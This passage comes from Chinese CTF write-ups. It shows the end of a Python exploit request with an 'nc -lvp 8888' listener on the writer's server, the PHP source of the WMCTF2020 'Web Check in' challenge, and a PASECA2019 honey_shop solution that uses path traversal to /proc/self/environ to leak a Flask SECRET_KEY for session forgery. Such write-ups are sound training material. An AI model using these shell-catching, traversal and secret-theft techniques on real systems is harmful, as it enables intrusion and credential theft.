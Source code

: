 ```python
    req = requests.post(url=url+"home", headers=headers_2, json=json)

    print(req.text)
```

然后在自己的服务器上

```
nc -lvp 8888
```

结果

![20210414204048513](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210414204048513.png)

## [WMCTF2020]Web Check in

源码

```
<?php
//PHP 7.0.33 Apache/2.4.25
error_reporting(0);
$sandbox = '/var/www/html/sandbox/' . md5($_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
var_dump("Sandbox:".$sandbox);
highlight_file(__FILE__);
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    if(preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$content))
         die('hacker');
    if(file_exists($content))
        require_once($content);
    file_put_contents($content,'<?php exit();'.$content);
}
```

**题解补在了第四周**

## [PASECA2019]honey_shop

flasksession伪造图中

有个`*click to download our sweet images*`可以任意文件下载, 尝试访问Python环境变量

```
/download?image=../../../../../../../proc/self/environ
```

得到 SECRET_KEY

```
SECRET_KEY=p0vFa0N5J6kEqjCxefMIEzeSwBf4USyyM3HIANUv
```

